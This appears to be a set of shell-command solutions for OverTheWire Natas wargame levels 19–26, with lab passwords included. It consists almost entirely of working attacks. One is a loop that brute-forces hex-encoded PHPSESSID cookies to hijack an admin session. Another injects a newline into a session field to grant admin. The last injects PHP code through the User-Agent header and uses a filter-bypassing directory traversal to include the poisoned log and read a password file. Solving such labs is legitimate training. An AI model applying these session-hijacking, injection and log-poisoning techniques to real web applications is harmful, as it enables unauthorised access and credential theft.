 ```sh
for _i in {1..640}; do
  echo -e "Tring PHPSESSID=$_i"
  _url="$(curl \
    --silent \
    --user "natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" \
    --data "username=admin&password=NULL" \
    --cookie "PHPSESSID=$(echo -n "$_i-admin" | xxd -p)" \
    --location "http://natas19.natas.labs.overthewire.org/index.php")"
  filter=$(echo $_url | grep "Password:")

  if [[ -n $filter ]]; then
    echo $_url | grep --color "Password:"
      break
  fi
done
```

## natas21

```sh
curl -u natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF --data "name=root%0Aadmin 1" http://natas20.natas.labs.overthewire.org/index.php?debug --cookie "PHPSESSID=njlkb373h5k9q92hdf57ggtl01" | grep --color Password
```

## natas23

```sh
curl -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ http://natas22.natas.labs.overthewire.org/index.php?revelio | grep --color Password
```

## natas24

```sh
curl -u natas23:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE http://natas23.natas.labs.overthewire.org/?passwd=11iloveyou | grep --color Password
```

## natas26

```sh
curl \
  --user natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c \
  --cookie PHPSESSID=blahblahblah \
  --user-agent "<?php echo file_get_contents('/etc/natas_webpass/natas26') ?>" \
  --location http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//tmp/natas25_blahblahblah.log
```
